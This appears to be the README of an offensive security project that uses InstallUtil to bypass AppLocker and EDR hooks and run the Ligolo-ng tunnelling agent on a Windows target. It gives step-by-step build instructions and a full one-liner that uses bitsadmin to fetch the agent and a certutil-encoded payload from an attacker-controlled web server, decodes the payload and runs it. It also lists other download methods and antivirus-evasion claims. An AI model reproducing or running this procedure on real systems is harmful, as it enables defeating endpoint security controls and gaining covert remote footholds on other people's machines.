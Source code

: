 # ApplockerBypassExternalBinary #

The original project can reflectively load and execute PEs locally and remotely bypassing EDR hooks. This modified version integrates the use of InstallUtil, allowing it to bypass security configurations like AppLocker for executing various binaries, including tools like Ligolo-ng.

This project closely resembles the well-known Invoke-ReflectivePEInjection.ps1, but being built in C# made it easier to implement code specifically designed for antivirus evasion. It includes basic evasion techniques that can be further adapted to bypass more recent antivirus solutions.

This setup focuses on executing Ligolo as a functional proof of concept (PoC) but can be easily modified to run any binary, allowing for flexible use with different tools as needed.

# Ligolo-ng Setup and Execution Guide

## 1. Setup Ligolo-ng Agent
To configure and compile the Ligolo-ng agent:

### Step 1: Modify the Ligolo-ng agent's main file
Open and edit main.go to adjust the settings as needed : **/ligolo-ng/cmd/agent/main.go**

![image](https://github.com/user-attachments/assets/3e9dfb54-edb7-420b-83a7-f6679e9d4831)


### Step 2: Compile the agent
Use the following command to compile:
```
GOOS=windows go build -o agent.exe cmd/agent/main.go
```

## 2. Prepare ApplockerBypassExternalBinary
To compile and encode your C# project for use:

### Step 1: Compile the project
Ensure the project is compiled as **Release** and **x64** for compatibility.

### Step 2: Encode the executable with certutil
Use certutil to convert the .exe to Base64, allowing for easier transfer:
```
certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.txt
```

## 3. Setup Your Web Server

Before executing the download on the target machine, set up a web server to host the required files:

- **Option 1**: Use Apache  
  Apache is a reliable choice and works well with all download methods, including `bitsadmin`.

- **Option 2**: Use Python’s SimpleHTTPServer (for quick setups)  
  Run the following command in the directory with your files:
  ```bash
  python -m http.server 80
  ```
  
## 4. Execution on the Target Machine
Use the following one-liner command on the target machine:
```
cmd /c bitsadmin /Transfer myJob http://192.168.xxx.xxx/ligolo-agent.exe C:\users\public\try-agent.exe && cmd /c bitsadmin /Transfer myJob http://192.168.xxx.xxx/pyhttp/AppLockerBypassLigolo.txt C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe
```
Bitsadmin is used as a download method, though it has its pros and cons—such as being deprecated on newer Windows versions and potentially limited by network configurations. Alternatively, certutil can serve as a reliable option for downloading files in many environments. Other flexible methods include curl (available on Windows 10+), or PowerShell’s built-in capability, such as (New-Object System.Net.WebClient).DownloadFile("URL", "path"), which offers compatibility across a wide range of systems.

## 5. Result

### Classic execution
![image](https://github.com/user-attachments/assets/08d49e56-7398-41e4-ae8d-de22a250cdbe)

![image](https://github.com/user-attachments/assets/abef6ad4-9e40-434c-ae7c-21531a271375)


### Using our one liner
![image](https://github.com/user-attachments/assets/b2302bd1-f0cd-4d54-bc06-c158c185709c)

![image](https://github.com/user-attachments/assets/9121676e-9a5f-4419-91cf-92b2d6693c45)



----------------------------------------------------------------------------------------

- I haven't found any ressource for bypassing applocker with ligolo-ng, so here it is.

- Huge thanks to @cpu0x00 for https://github.com/cpu0x00/SharpReflectivePEInjection

	

	
